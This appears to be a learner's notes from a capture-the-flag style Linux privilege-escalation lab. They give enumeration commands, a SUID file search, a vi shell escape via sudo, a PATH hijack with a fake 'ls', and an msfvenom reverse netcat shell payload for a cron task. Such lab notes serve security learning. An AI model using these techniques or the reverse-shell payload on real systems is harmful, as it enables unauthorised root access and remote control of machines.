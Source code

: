 # Linux Fundamentals

I've already done the first three rooms for this and didn't take notes. Better late than never.

## Common Linux Privesc

### Task 4 Enumeration

2. What is the target's hostname?

```
echo $HOSTNAME
```

3. Look at the output of /etc/passwd how many "user[x]" are there on the system?

```
cat /etc/passwd
```

4. How many available shells are there on the system?

```
cat /etc/shells
```

5. What is the name of the bash script that is set to run every 5 minutes by cron?

```
cat /etc/crontab
```

6. What critical file has had its permissions changed to allow some users to write to it
```
ls -la /etc/passwd
``` 
Used hint.

### Task 5 Abusing SUID/GUID Files

1. What is the path of the file in user3's directory that stands out?
```
find / -perm -u=s -type f 2\>/dev/null
```

### Task 7 Exploiting Vi Editor
```
sudo -l
```
To see what we can run as sudo. If vi, `sudo vi` to open editor, then `:!sh` to spawn shell.

### Task 8 Exploiting Crontab

4. Create payload
```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

### Task 9 Exploiting PATH Variable

4. What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating?
```
echo "/bin/bash" > ls
```

5. Now we've made our imitation, we need to make it an executable. What command do we execute to do this?
```
chmod +x ls
```

6. Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! We do this using the command "export PATH=/tmp:$PATH"


